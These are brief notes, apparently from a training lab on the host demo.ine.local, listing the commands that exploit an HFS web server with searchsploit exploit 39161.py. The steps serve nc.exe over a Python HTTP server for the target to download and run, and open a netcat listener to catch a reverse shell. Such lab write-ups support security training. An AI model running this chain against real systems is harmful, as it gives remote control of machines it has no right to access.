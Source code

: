 #### Fixing searchsploit
- nmap -sV -sS demo.ine.local [ confirm the service is running ]
- searchsploit hfs
- searchsploit -m 39161.py [this will show the complete path of exploit code ]
- cp /path/39161.py . [ this will copy the exploit into current directory ]
- nano 39161.py [ edit local ip and port ]
- cp /usr/share/windows-binaries/nc.exe . [ copied the nc.exe file into current directory ]
- nc -lvnp 9001 [ set the port same as python file local port ]
- python -m SimpleHTTPServer 80 [run the python server]
- python 39161.py demo.ine.local 80 [run this multiple time  ]
